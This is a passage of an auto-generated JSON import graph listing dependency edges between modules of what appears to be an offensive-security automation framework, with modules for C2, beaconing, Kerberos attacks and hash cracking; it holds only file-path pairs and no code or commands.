"core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/bof_registry.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/c2_builder.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/c2_builder.py", "target": "modules/metrics.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/c2_builder.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/c2_profile.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/c2_profile.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/c2_profile_engine.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/c2_profile_engine.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/c2_profile_engine.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/cli_auth.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/cli_auth.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/cli_auth.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/cli_auth.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/cli_auth.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/cli_auth.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/collab_bp.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/collab_bp.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/collab_bp.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/collab_bp.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/command_executor.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/command_executor.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/command_executor.py", "target": "modules/event_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/command_executor.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/command_executor.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/compliance.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/conditional_hooks.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/conditional_hooks.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/conditional_hooks.py", "target": "modules/credential_reuse.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/conditional_hooks.py", "target": "modules/state_manager.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/config_store.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/config_store.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/credential_reuse.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/custom_tools.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/custom_tools.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/custom_tools.py", "target": "modules/notify.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/cve_matcher.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/cve_matcher.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/db.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/db.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/db.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/db.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/db.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/detection_feed.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/detection_feed.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/detection_oracle.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/detection_oracle.py", "target": "modules/detection_feed.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/detection_oracle.py", "target": "modules/detection_feed.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/dns_beacon.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/engage_summary.py", "target": "modules/enrich.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/engage_summary.py", "target": "cli/recommendation_signals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/engage_summary.py", "target": "modules/evidence.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/engagement_hooks.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/engagement_hooks.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/estorides_importer.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/estorides_importer.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/estorides_importer.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/estorides_importer.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/event_bus.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/event_bus.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/event_bus.py", "target": "modules/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/event_bus.py", "target": "modules/collab_bp.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/event_consumers.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/event_consumers.py", "target": "modules/event_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/event_consumers.py", "target": "modules/event_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/event_consumers.py", "target": "modules/state_manager.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/event_consumers.py", "target": "modules/state_manager.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/exploit_recommender.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/exploit_recommender.py", "target": "lazygui/version.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/exploit_recommender.py", "target": "lazygui/version.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/exploitgym_gym.py", "target": "modules/redteam_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/finding_lifecycle.py", "target": "modules/osint_enrich.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/hash_cracker.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/hash_cracker.py", "target": "core/defaults.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/hash_cracker.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/hive_invoke.py", "target": "modules/toposwarm_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ia_code_analysis.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ia_code_analysis.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ia_code_analysis.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ia_code_analysis.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ia_logs_analysis.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ia_logs_analysis.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ia_logs_analysis.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ia_logs_analysis.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ia_network_analysis.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ia_network_analysis.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ia_network_analysis.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ia_network_analysis.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/icmp_server.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/icmp_server.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/icmp_server.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/integrations/__init__.py", "target": "modules/integrations/misp_export.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/integrations/__init__.py", "target": "modules/integrations/nuclei_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/integrations/__init__.py", "target": "modules/integrations/searchsploit.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/integrations/misp_export.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/integrations/misp_export.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/integrations/nuclei_bridge.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/integrations/nuclei_bridge.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/integrations/nuclei_parser.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/integrations/nuclei_parser.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/integrations/nuclei_parser.py", "target": "modules/integrations/nuclei_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/integrations/nuclei_parser.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/integrations/searchsploit.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/integrations/searchsploit.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/intel_fusion.py", "target": "modules/estorides_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/intel_fusion.py", "target": "modules/estorides_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/intel_fusion.py", "target": "modules/estorides_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/intel_fusion.py", "target": "modules/finding_lifecycle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/intelligence_engine.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/intelligence_engine.py", "target": "modules/obs_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/intelligence_engine.py", "target": "modules/estorides_importer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/intelligence_engine.py", "target": "modules/integrations/nuclei_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/intelligence_engine.py", "target": "modules/integrations/nuclei_parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/intelligence_engine.py", "target": "modules/yara_scanner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/intelligence_engine.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/intelligence_engine.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/intercept.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/kerberoasting.py", "target": "modules/kerberos_core.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/kerberos_tickets.py", "target": "modules/kerberos_core.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/kill_chain_viz.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/killchain.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/killchain.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/killchain.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/killchain.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_agent.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_agent.py", "target": "modules/agent_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_agent.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_agent.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_agent.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_agent.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_agent.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_agent.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_agent.py", "target": "modules/loop_ai_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_agent.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_agent.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_agent.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_agent.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_bridge.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_bridge.py", "target": "modules/finding_lifecycle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_bridge.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_cli_bridge.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_cli_bridge.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_engine.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_installer.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_installer.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_installer.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_intel.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_intel.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_intel.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_intel.py", "target": "modules/lazy_cli_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_intel.py", "target": "modules/lazy_cli_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_intel.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_intel.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_skills.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_intel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/loop_ai_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_installer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_installer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/finding_lifecycle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/custom_tools.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_intel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_intel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_orchestrator_feedback.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_intel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_intel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/loop_ai_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/intercept.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/loop_ai_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_skills.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/orchestrator_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/notify.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/llm_pool.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/loop_ai_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/loop_ai_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_intel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_orchestrator_feedback.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_orchestrator_feedback.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/orchestrator_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/orchestrator_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/selfupdate.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/loop_ai_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/custom_tools.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/notify.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_roles.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/lazy_roles.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/loop_ai_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/loop_ai_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_loop.py", "target": "modules/auto_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_mentions.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_mentions.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_mentions.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_mentions.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_mentions.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_mentions.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_mentions.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_orchestrator_feedback.py", "target": "modules/lazy_intel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_orchestrator_feedback.py", "target": "modules/lazy_intel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_orchestrator_feedback.py", "target": "modules/lazy_cli_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_proxy.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_proxy.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_proxy.py", "target": "modules/backdoor/server.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_proxy.py", "target": "modules/backdoor/server.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_rbac.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_rbac.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_roles.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_roles.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/lazy_runner.py", "target": "core/autonomous.py"}, 